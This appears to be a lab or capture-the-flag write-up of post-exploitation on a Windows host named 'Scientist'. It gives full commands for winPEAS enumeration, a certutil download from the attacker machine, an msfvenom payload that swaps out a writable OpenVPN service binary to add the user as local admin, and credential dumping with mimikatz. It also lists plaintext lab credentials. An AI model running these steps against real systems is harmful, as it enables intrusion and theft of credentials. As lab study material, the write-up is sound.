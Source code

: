 # Post Exploit - Scientist Machine

- [Post Exploit - Scientist Machine](#post-exploit---scientist-machine)
  - [Local Enumeration 1 - Iyer](#local-enumeration-1---iyer)
  - [Privilege escalation](#privilege-escalation)
  - [Local Enumeration 2 - Administrator](#local-enumeration-2---administrator)

---

## Local Enumeration 1 - Iyer

Check the user privilege:

```
whoami
whoami /priv
net localgroup administrators
```

![picture 6](images/19122d818cc716044ef963f5bb8883ea87ea009f2c1a1a3b5f6435be06ea25a5.png)  

* The current user `iyer` does not have admin privilege.

<br/>

Use `winPEAS.exe` to perform a local enumeration. (Ref: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

Serve `winPEAS.exe` using python on the attacker machine:

```
python3 -m http.server 80
```
![picture 7](images/eef477ff7de419d383c249a9f2986a1eb7ad7ce5750f06ddddb4fa44f2d46d46.png)  

<br/>

Download `winPEAS.exe` on the Scientist Machine using `certutil`:
```
certutil -urlcache -f http://192.168.100.11/winPEAS.exe .\winPEAS.exe
```

![picture 8](images/af962bc5882e8aea687ee78a54e093b1a68cb252098cf272850856b7ec762936.png)  

<br/>

Run `winPEAS.exe` to perform a local enuemraiton:
```
winPEAS.exe
```

However it is bugged since `atomic.site` is unresponsive:

![picture 9](images/395895655234d7c068ecddc6fe0243061f6150a67db8af2bf3e58f2805f63c42.png)  

<br/>

Manually enuemrating the `Program File (x86)` folder, user installed programs are `OpenVPN Technologies` and `Python38-32`:

![picture 1](images/fc1e41ab39f6288f8a7e53579493d99acac80998edd851a3c9eb183a02136f24.png)  

<br/>

Get the current running processes:

```
powershell -c "Get-Process"
```

![picture 2](images/809ed7cb3e70263d2c86c52c72c3ee0e65c497805a175cdafb511577fcd5ac95.png)  

* `ovpn.exe` is running.

<br/>

Try to see if this is a service:

```
sc query ovpn
sc qc ovpn
```

![picture 3](images/67bcae22af51961810560e330f592303606e81412837ec57e84aeb24d600a821.png)  


![picture 4](images/eb3f80e8301f9b89023e7de8d0f6507e94f2ae43d2b4c23a249d2568d47367e1.png)  

* The current user can start / stop the service

<br/>

Check the permission of the binary path:

```
icacls "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\*"
```

![picture 9](images/5ea52dee7464384a6267b0baa3688c4f010b59b28a33b3b4f72af605ded0a3e0.png)  


![picture 5](images/2bb743c073b53175c3f174cbb90fcd7edcaaf91abbf012e4482dbb926c1d9b10.png)  

* The current user has the Full permission.

<br/>

## Privilege escalation

> Technique:<br/>
> T1543.003 - Create or Modify System Process: Windows Service<br/>
> https://attack.mitre.org/techniques/T1543/003/

<br/>

First backup a copy of `ovpn.exe`:

```
copy "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\ovpn.exe" "C:\Users\Public\ovpn.exe"
```

![picture 6](images/0e1dd98d7e3385df37d3484f3225e12ee49a699982381be0571a4e840e7ec3da.png)  

<br/>

On the attacker machine, generate a payload which adds `OPERATIONS\iyer` as local admin with `msfvenom`, and then serve it using python http server:

```
msfvenom -p windows/exec CMD="net localgroup administrators OPERATIONS\iyer /add" -b "x00" -f exe > ovpn.exe
```

```
python3 -m http.server 80
```

![picture 7](images/118024c3365fe2d9a86d3746b6830d6606507cd4c01ac9c62700bd55313c95c2.png)  

<br/>

On the Scientist machine, replace `ovpn.exe` by the served one:

```
cd C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\
move ovpn.exe ovpn2.exe
certutil -urlcache -f http://192.168.100.11/ovpn.exe .\ovpn.exe
```

![picture 8](images/3fa3a6b6310fc4dd3147cbfac84b5da85c6348a99085843c2eb884657edb4e2f.png)  

<br/>

Then restart the service `ovpn` to get the binary executed.

```
sc stop ovpn
sc start ovpn
```

![picture 10](images/a0f9bcdb6e8ba5ae27a8f309e911a17d49b6b808e99ee2c3f8d0bd2866b2a5b3.png)  

![picture 11](images/49ee88a744b067ee43fca8f30e3072d2d9c29daad990d5dc40689dae8b4dbe23.png)  

![picture 12](images/77526e3b20dbc7d5a47a9cb66113ffa3743c417287673e5f75627f670eea7a96.png)  

* As shown, our privilege is escalated to local admin.

<br/>

Restart the reverse shell and we can browse the Administrator's folder:

![picture 13](images/348ce963ab113d5c0e4ab3dcd3a8f1348ab6edc6249f15fa5eb52f7ca341104e.png)  

<br/>

## Local Enumeration 2 - Administrator

Check the Administrator's desktop:

```
dir C:\Users\Administrator\Desktop\
```

![picture 14](images/c8357c88200e4b9f0983a7710d0abfbb128b173a23f71927230fafb74fea9e41.png)  


<br/>

Check the content of `Git-Configuration.txt`:

```
cd C:\Users\Administrator\Desktop
type Git-Configuration.txt
```

![picture 15](images/a3420cccfde08a278310d2952eb082c029a029d2da19b5b83c15e6b741467265.png)  

![picture 20](images/d77464f833cbc53b9ce9b6d5cf702c6b18302d80e07d1123c6cfe915b8e287b3.png)  

* `automation-server.operations.atomic.site` (`10.1.3.1`)

<br/>

Try to clone the repo to the local:

```
git clone http://automation-server.operations.atomic.site/iyer/Database-Connection.git
```

![picture 16](images/04e6889388dd66ff4e6e53416bc6227b5f6440b9737a0caa96b103e068f35587.png)  

<br/>

Check the files in to downloaded repo:

```
cd Database-Connection
dir
```

![picture 17](images/9f66eee488db83246d7c99f6af23ee054e492efb0f63d0d394cc40d676e65608.png)  

<br/>

Check the content of `migrate.txt`:

```
type to_migrate.txt
```

![picture 18](images/d273e6942095412db33f35217e9f08a734b6a61cc920ebfce4840c04f0971297.png)  

![picture 19](images/106168ff597c0bdb77e33593b129731e3b214a508d37aa4b868ae33518236d74.png)  

- Found 2 credentials:
  -  `iisadmin` \ `Head!!S%$#@!`
  -  SQL: `tutorialsdojo` \ `P@sSword123`

<br/>

Also we can use mimikatz to dump credential:

![picture 74](images/df6ca3355c44059ba30822e19c9cbfbfc315ce840baa495b506722cdff49a523.png)  

Iyer's credential:
- `operations\iyer`
- `Sc!ent!st@2`